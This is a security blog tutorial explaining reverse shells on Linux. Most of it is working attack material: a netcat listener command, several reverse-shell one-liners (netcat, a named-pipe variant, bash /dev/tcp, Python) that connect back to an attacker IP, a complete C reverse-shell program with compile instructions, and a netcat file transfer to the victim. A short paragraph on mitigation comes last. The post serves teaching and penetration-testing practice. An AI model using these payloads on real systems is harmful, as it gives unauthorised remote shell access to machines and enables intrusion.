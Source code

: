 ```yaml
---
layout: post
title:  "Reverse shells"
date:   2021-09-11 10:00:00 +0600
categories: tutorial
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

## what is reverse shell?

Reverse shell or often called connect-back shell is remote shell introduced from the target by connecting back to the attacker machine and spawning target shell on the attacker machine. This usually used during exploitation process to gain control of the remote machine.

![rev shells](/assets/images/4/shells.png){:class="img-responsive"}

The reverse shell can take the advantage of common outbound ports such as port 80, 443, 8080 and etc.

The reverse shell usually used when the target victim machine is blocking incoming connection from certain port by firewall. To bypass this firewall restriction, red teamers and pentesters use reverse shells.

But, there is a caveat. This exposes the control server of the attacker and traces might pickup by network security monitoring services of target network.

There are three steps to get a reverse shell.  
Firstly, attacker exploit a vulnerability on a target system or network with the ability to perform a code execution.  
Then attacker setup listener on his own machine.  
Then attacker injecting reverse shell on vulnerable system to exploit the vulnerability.

There is one more caveat. In real cyber attacks, the reverse shell can also be obtained through social engineering, for example, a piece of malware installed on a local workstation via a phishing email or a malicious website might initiate an outgoing connection to a command server and provide hackers with a reverse shell capability.

![social engineering](/assets/images/4/shells2.png){:class="img-responsive"}

The purpose of this post is not to exploit a vulnerability in the target host or network, but the idea is to find a vulnerability that can be leverage to perform a code execution.

Depending on which system is installed on the victim and what services are running there, the reverse shell will be different, it may be php, python, jsp etc.

***

## listener

For simplicity, in this example, the victim allow outgoing connection on any port (default iptables firewall rule). In our case we use `4444` as a listener port. You can change it to your preferable port you like. Listener could be any program/utility that can open TCP/UDP connections or sockets. In most cases I like to use `nc` or `netcat` utility.

```bash
nc -lvp 4444
```

In this case `-l` listen, '-v' verbose and `-p` port 4444 on every interface. You can also add `-n` for numeric only IP addresses, not DNS.

![listener](/assets/images/4/2021-09-11_17-59.png){:class="img-responsive"}

***

## run reverse shell (examples)

Again for simplicity, in our examples target is a linux machine.   
**1. netcat**   
run:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

where `10.9.1.6` is your attacker's machine IP and `4444` is listening port.   

![netcat](/assets/images/4/2021-09-11_18-04.png){:class="img-responsive"}

**2. netcat without -e**
Newer linux machine by default has traditional netcat with `GAPING_SECURITY_HOLE` disabled, it means you don't have the `-e` option of netcat.

In this case, in the victim machine run:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](/assets/images/4/2021-09-11_18-23.png){:class="img-responsive"}

Here, I've first created a named pipe (AKA FIFO) called `p` using the `mkfifo` command. The `mkfifo` command will create things in the file system, and here use it as a "backpipe" that is of type `p`, which is a named pipe. This FIFO will be used to shuttle data back to our shell's input. I created my backpipe in `/tmp` because pretty much any account is allowed to write there.

**3. bash**   
This will not work on old debian-based linux distributions.   
run:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](/assets/images/4/2021-09-11_18-12.png){:class="img-responsive"}

**4. python**

To create a semi-interactive shell using python, run:
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](/assets/images/4/2021-09-11_18-36.png){:class="img-responsive"}

More examples: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

***

## create reverse shell in C
My favorite part. Since I came to cyber security with a programming background, I enjoy doing some things "reinventing the wheel", it helps to understand some things as I am also learning in my path.

As I wrote earlier, we will write a reverse shell running on Linux (target machine).   

Create file `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

	// attacker IP address
	const char* ip = "10.9.1.6";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

Let's compile this:
```bash
gcc -o shell shell.c -w
```

![c rev shell compile](/assets/images/4/2021-09-11_18-53.png){:class="img-responsive"}

*If you compile for 32-bit linux run:* ```gcc -o shell -m32 shell.c -w```

Let's go to transfer file to victim's machine. File transfer is considered to be one of the most important steps involved in post exploitation (as I wrote earlier, we do not consider exploitation step).

We will use the tool that is known as the Swiss knife of the hacker, netcat.

on victim machine run:
```bash
nc -lvp 4444 > shell
```

on attacker machine run:
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](/assets/images/4/2021-09-11_19-09.png){:class="img-responsive"}

check:
```bash
./shell
```

![run](/assets/images/4/2021-09-11_19-41.png){:class="img-responsive"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

## mitigation

Unfortunately, there is no way to completely block reverse shells. Unless you are deliberately using reverse shells for remote administration, any reverse shell connections are likely to be malicious. To limit exploitation, you can lock down outgoing connectivity to allow only specific remote IP addresses and ports for the required services. This might be achieved by sandboxing or running the server in a minimal container.

I hope this post was at least a little useful for entry level cyber security specialists (and possibly even professionals).  
Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*
